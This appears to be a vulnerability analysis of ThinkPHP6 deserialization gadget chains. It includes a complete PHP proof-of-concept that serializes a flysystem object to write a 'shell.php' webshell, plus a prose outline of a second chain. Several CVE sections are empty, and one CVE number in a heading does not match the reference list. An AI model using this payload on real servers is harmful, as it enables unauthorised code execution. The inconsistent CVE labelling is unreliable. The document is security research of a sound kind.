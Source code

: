# ThinkPHP6 Deserialization Vulnerability Analysis

## Idea

First, global search where the function `__destruct` appears, to facilitate subsequent analysis. And a total of five functions `__destruct` are found.

![](img/5.png)

```php
// vendor/league/flysystem/src/SafeStorage.php
public function __destruct()
{
    unset(static::$safeStorage[$this->hash]);
}

// vendor/league/flysystem/src/Adapter/AbstractFtpAdapter.php
public function __destruct()
{
    $this->disconnect();
}

// vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php
public function __destruct()
{
    if (! $this->autosave) {
        $this->save();
    }
}

// vendor/topthink/think-orm/src/Model.php
public function __destruct()
{
    if ($this->lazySave) {
        $this->save();
    }
}

// vendor/topthink/think-orm/src/db/Connection.php
public function __destruct()
{
    $this->close();
}
```

### CVE-2021-36564

Global search for file write methods that exist in the project, such as file_put_contents, fwirite and so on.

![](img/1.png)

There are two calls to the `file_put_contents` function in the file `vendor/league/flysystem/src/Adapter/Local.php`, the function `write` and the function `update`.

![](img/2.png)

Now, we need to find a place where the function `write` or function `update` is called, here web analyze the function `write`. We can see it is called by the file `vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`. And when looking for the `__destruct` function above, one of them exists to call the `save` function, so we can try to use it.

![](img/3.png)

The value of `$config` is obtained by instantiating the class `Config`, and the value of `$contents` is obtained by calling the `cleanContents` function in the abstract class `AbstractCache`. What's more, the value of `$this->adapter`, the value of `$this->file`, and the value of `$this->cache` are all controable.

![](img/4.png)

So, we can use the following payload to achieve the purpose of getshell by writing the malicious file.

```php
<?php

namespace League\Flysystem\Adapter {

    use League\Flysystem\Cached\Storage\AbstractCache;

    class Local extends AbstractCache{
        public function save() { }

        public function load() { }
    }

    class AbstractAdapter {
        protected $pathPrefix;
        public function __construct() {
            $this->pathPrefix = "./";
        }
    }
}

namespace League\Flysystem\Cached\Storage {

    use League\Flysystem\Adapter\Local;

    abstract class AbstractCache {
        protected $autosave = false;
        protected $cache = ["*\<?php phpinfo();?>\\"];
    }

    class Adapter extends AbstractCache {
        protected $adapter;
        protected $file;
        protected $expire = null;

        public function __construct() {
            $this->adapter = new Local();
            $this->file = "shell.php";
        }

        public function save() { }

        public function load() { }
    }
}

namespace {
    use League\Flysystem\Cached\Storage\Adapter;
    $payload = new Adapter();
    echo base64_encode(serialize($payload));
}
```

![](img/6.png)


### CVE-2021-3656

Unlike the analysis above which uses file write to getshell, this time we find gadget by forward analyzing the use of the `__destruct` function.

We use the `__destruct` function in the file `vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php` as a starting point for our analysis.

![](img/7.png)

First, we need to find an inheritance class of the Model class that implements the save method, I has selected the file `vendor/topthink/think-filesystem/src/filesystem/CacheStore.php`.

![](img/8.png)


The value of `$this->store` is controable, so we can use the `set` method in any class. And the value of `$contents` is alse controable.

Finally, we are able to reach the purpose in `thinkphp/vendor/topthink/framework/src/think/cache/driver/File.php`.

![](img/9.png)



### CVE-2022-33107

### CVE-2022-38352

### CVE-2022-45982




## Reference
 - [`CVE-2021-36564`](https://github.com/top-think/framework/issues/2559)
 - [`CVE-2021-36567`](https://github.com/top-think/framework/issues/2561)
 - [`CVE-2022-33107`](https://github.com/top-think/framework/issues/2717)
 - [`CVE-2022-38352`](https://github.com/top-think/framework/issues/2749)
 - [`CVE-2022-45982`](https://github.com/top-think/framework/issues/2793)